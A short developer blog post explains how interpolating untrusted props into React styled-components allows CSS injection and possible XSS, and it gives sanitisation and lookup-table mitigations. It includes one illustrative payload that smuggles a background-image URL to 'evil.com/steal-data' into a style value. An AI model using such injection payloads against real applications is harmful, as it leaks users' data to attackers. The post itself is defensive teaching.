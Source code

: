 ```yaml
---
title: "The XSS dangers in interpolating styled-components"
description: "Learn about XSS vulnerabilities when interpolating styled-components in React"
publishDate: "2025-01-20"
tags: ["javascript", "react", "styled-components"]
---
```



## Avoiding XSS Vulnerabilities in [styled-components](https://styled-components.com/)

I recently learned at work with a coworker of how one can easily introduce XSS
vulnerabilities in a React application when using styled-components. This
article will explain how this can happen and how to avoid it.

### The Problem

Consider the following styled-components example:

```javascript
const Container = styled.div`
  position: ${(p) => (p.isFixed ? 'fixed' : 'relative')}; // this is safe
  top: ${(p) => p.offsetTop}px;
`;
```

At first glance, it seems harmless to pass `p.offsetTop` directly into the `top` property. However, this can lead to security risks if the value of `offsetTop` is not sanitized and an attacker is able to control its value. Here's why:

1. **CSS Injection**: If `offsetTop` contains malicious code, it could inject arbitrary CSS.
2. **JavaScript Execution**: When this style is server-side rendered (SSR), an attacker could execute JavaScript within the context of the user's session.
3. **External Requests**: Malicious CSS, such as a `background-image` property with a URL, can trigger requests to external services, leaking sensitive user data.

### Why This Happens

The root cause is the inability to safely escape CSS when injecting styles into `<style>` tags inside HTML. Unlike HTML attributes, which React can safely escape, CSS allows unsafe characters that could be exploited.

### Real-World Example

Imagine an attacker controlling `offsetTop` by injecting a payload:

```javascript
const maliciousPayload = `10px; background-image: url("http://evil.com/steal-data")`;

// Usage in a component
<Container offsetTop={maliciousPayload} />;
```

This would render the following unsafe CSS:

```css
.Container {
  position: relative;
  top: 10px; background-image: url("http://evil.com/steal-data");
}
```

When the browser processes this style, it could leak sensitive user data to the attacker's server.

### Safe Alternative

To prevent this kind of vulnerability:

1. **Sanitize Inputs**: If you must, always validate and sanitize user inputs before using them in styles.

   ```javascript
   const sanitizeValue = (value) => parseInt(value, 10) || 0;
   const safeOffsetTop = sanitizeValue(userInput);
   ```

2. **Avoid Direct CSS Injection**: Refrain from using variables directly in styled components if they come from untrusted sources.


3. **Limit Interpolations to Flags**: Only use interpolations for boolean flags or predefined values, not for arbitrary CSS properties.

```javascript
const predefinedAcceptedOffset = {
  0: 0,
  1: 10,
  2: 20,
};
const Container = styled.div`
  position: ${(p) => (p.isFixed ? 'fixed' : 'relative')}; // this is safe
  top: ${(p) => predefinedAcceptedOffset[p.offset]}px;
`;
```
